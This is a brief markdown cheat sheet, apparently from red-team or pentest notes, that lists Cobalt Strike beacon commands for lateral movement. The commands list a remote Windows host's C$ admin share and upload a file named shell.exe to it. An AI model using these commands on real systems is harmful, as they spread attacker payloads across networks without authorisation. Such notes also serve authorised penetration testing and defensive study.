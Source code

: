 # Cobalt Strike

Search Tag(s): #lateral-movement #cobalt-strike #windows

## 01 - List Files and Directories

`beacon> ls \\<IP>\c$`

## 02 - Upload Files

`beacon> upload /home/user/shell.exe \\<IP>\c$\shell.exe`

If that didn't work change directory and then upload it

```
beacon> cd \\<IP>\c$

beacon> upload /home/user/shell.exe
```